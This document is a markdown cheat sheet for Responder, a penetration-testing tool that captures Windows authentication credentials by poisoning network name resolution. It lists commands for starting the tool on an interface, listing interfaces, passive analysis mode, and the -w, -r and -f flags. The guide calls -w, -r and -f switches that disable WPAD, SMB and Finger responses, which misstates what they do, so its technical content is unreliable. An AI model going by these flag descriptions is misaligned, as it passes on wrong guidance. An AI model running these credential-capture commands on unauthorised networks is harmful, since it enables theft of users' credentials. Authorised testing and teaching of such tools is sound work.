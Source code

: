 Responder is a powerful tool used in network penetration testing to capture credentials by exploiting weaknesses in the Windows authentication protocols. Below is a detailed list of arguments, methods, and examples for using Responder.

---

### **Responder Arguments, Methods, and Examples**

#### **1. Starting Responder**
- **Description:** Start Responder to listen on a specific network interface.
- **Command:**
  ```bash
  sudo responder -I <interface>
  ```
- **Example:**
  ```bash
  sudo responder -I eth0
  ```
- **Explanation:**
  - This command starts Responder on the specified network interface (`eth0` in this case), listening for authentication requests.

#### **2. List Available Network Interfaces**
- **Description:** List all available network interfaces to determine which one to use.
- **Command:**
  ```bash
  sudo responder -L
  ```
- **Explanation:**
  - This command displays all available network interfaces, allowing you to choose the correct one for your attack.

#### **3. Analyze Traffic without Spoofing**
- **Description:** Run Responder in analysis mode to observe network traffic without actively spoofing.
- **Command:**
  ```bash
  sudo responder -I <interface> -A
  ```
- **Example:**
  ```bash
  sudo responder -I eth0 -A
  ```
- **Explanation:**
  - The `-A` flag puts Responder in analysis mode, where it passively observes traffic without performing any spoofing.

#### **4. Disable Specific Modules**
- **Description:** Disable specific Responder modules to avoid certain types of responses.
- **Command:**
  ```bash
  sudo responder -I <interface> -w -r -f
  ```
- **Example:**
  ```bash
  sudo responder -I eth0 -w -r -f
  ```
- **Explanation:**
  - Flags such as `-w`, `-r`, and `-f` can be used to disable WPAD, SMB, and Finger response modules, respectively.
